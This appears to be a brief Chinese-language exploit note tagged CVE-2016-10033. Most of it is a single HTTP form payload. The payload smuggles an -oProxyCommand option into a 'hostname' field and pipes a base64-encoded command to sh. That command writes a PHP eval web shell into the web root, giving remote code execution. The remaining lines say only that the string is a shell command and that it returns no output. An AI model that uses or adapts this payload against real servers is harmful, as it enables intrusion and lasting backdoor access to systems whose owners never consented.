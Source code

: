 - 打 [[CVE-2016-10033]]
- payload: `hostname=x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbImRhdGEiXSk7Pz4nID4gL3Zhci93d3cvaHRtbC90ZXN0LnBocA==|base64%09-d|sh}a&username=1&password=1`
	- 其中的base64字符串是shell命令
	- 没有回显
